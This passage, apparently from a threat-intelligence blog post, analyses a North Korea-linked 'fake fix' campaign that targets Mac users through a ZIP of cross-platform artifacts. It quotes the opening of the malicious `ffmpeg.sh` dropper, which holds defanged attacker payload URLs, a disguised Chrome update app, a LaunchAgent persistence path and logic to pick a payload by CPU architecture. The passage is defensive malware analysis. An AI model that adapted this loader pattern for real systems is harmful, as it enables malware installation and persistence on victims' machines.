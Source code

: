 ![sshot](/assets/images/dprk_chrome/pivot.png)

ZIP file with a collection of artifacts:
![sshot](/assets/images/dprk_chrome/parentzip.png)

This ZIP file contains artifacts to target Windows, Mac, and Linux, which is consistent with the multi-platform targeting of this threat actor and the use of cross-platform languages such as Golang. I'll focus on the artifacts affecting Mac users. The script executed in the "fake fix" lure is likely `ffmpeg.sh`. This shell script triggers the download, execution, and persistence of the payload, along with a Mach-O app.

`ffmpeg.sh` does a few things:
* It defines variables, that can be updated with different file names and domains
* It has code to determine if the target system is running on the Intel or ARM architecture, and download the corresponding payload
* It downloads and unpacks an archive (which is the archive originally by @tayvano_)
* It establishes a persistent LaunchAgent service for the malware
* It runs a the ChromeUpdateAlert.app Mach-O application

```shell
#!/bin/bash

# Define variables for URLs
ZIP_URL_ARM64="https://api.nvidia-cloud[.]online/VCam1.update"
ZIP_URL_INTEL="https://api.nvidia-cloud[.]online/VCam2.update"
ZIP_FILE="/var/tmp/VCam.zip"                        # Path to save the downloaded ZIP file
WORK_DIR="/var/tmp/VCam"                            # Temporary directory for extracted files
EXECUTABLE="vcamservice.sh"                         # Replace with the name of the executable file inside the ZIP
APP="ChromeUpdateAlert.app"                         # Replace with the name of the app to open
PLIST_FILE=~/Library/LaunchAgents/com.vcam.plist    # Path to the plist file

# Determine CPU architecture
case $(uname -m) in
    arm64) ZIP_URL=$ZIP_URL_ARM64 ;;    
    x86_64) ZIP_URL=$ZIP_URL_INTEL ;;
```